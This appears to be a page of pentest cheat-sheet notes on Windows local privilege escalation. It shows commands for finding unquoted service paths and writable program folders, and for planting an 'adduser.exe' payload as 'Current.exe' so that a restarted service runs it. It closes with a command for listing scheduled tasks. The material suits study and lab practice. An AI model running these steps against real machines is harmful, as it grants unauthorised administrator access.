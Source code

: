 restart service
```
restart-service SERVICE
```

## Unquated Service Path
check unquated service
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Out-String -Width 500 |findstr /i /v "C:\WINDOWS\" | findstr /i /v '\"'
```

example
```
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

check for privilege
```
Start-Service GammaService
Stop-Service GammaService
```

find write permission
```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

example : BUILTIN\Users:(OI)(CI)(RX,**W**) <- BUILDIN\Users has Write Permission
```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

then put Current.exe
```
mv .\adduser.exe "C:\Program Files\Enterprise Apps\Current.exe"
```

## Scheduled Tasks

get list of all scheduled tasks
```
schtasks /query /fo LIST /v
```
